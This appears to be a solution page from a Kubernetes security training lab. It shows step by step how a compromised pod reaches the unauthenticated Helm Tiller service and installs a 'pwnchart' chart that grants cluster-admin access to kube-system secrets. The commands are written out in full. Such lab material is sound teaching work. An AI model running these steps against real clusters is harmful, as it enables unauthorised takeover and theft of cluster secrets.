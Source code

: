 # Attacking Helm tiller without RBAC setup - Solution

* Let's assume that you already have access to a pod inside a cluster using an application vulnerability (Ex: Command Injection)

* Then we can run the below command to deploy simple pod which contains `helm` and `kubectl` binaries

```bash
kubectl run -n default --quiet --rm --restart=Never -ti --image=madhuakula/helm-security incluster
```

![](images/deploy-pod.png)

* If we check the version of the helm, it responds with `Error: pods is forbidden: User "system:serviceaccount:default:default" cannot list pods in the namespace "kube-system"`. Means client not able to establish connection with server

```bash
helm version
```

* Let's telnet to Tiller's default service and port. We can connect to `tiller-deploy.kube-system` on port `44134`

```bash
telnet tiller-deploy.kube-system 44134

Ctrl+C
```

![](images/telnet-tiller.png)

* Now we can use the helm with host flag to talk to the server `helm --host tiller-deploy.kube-system:44134 version`

![](images/helm-with-host-flag.png)

* Let's try getting the secrets from `kube-system` namespace using kubectl `kubectl get secrets -n kube-system`. We can clearly see that we can't get the secrets with default service account attached to this pod

![](images/kubectl-secrets-before-attack.png)

* Let's go ahead and deploy our `pwnchart` helm chart

```bash
helm --host tiller-deploy.kube-system:44134 install /pwnchart
```

![](images/helm-deploy-pwnchart.png)

* Now let's try again to get the secrets from `kube-system` namespace using kubectl `kubectl get secrets -n kube-system`.

![](images/kube-secrets-after-attack.png)

* We now have full cluster access to do whatever a cluster admin can do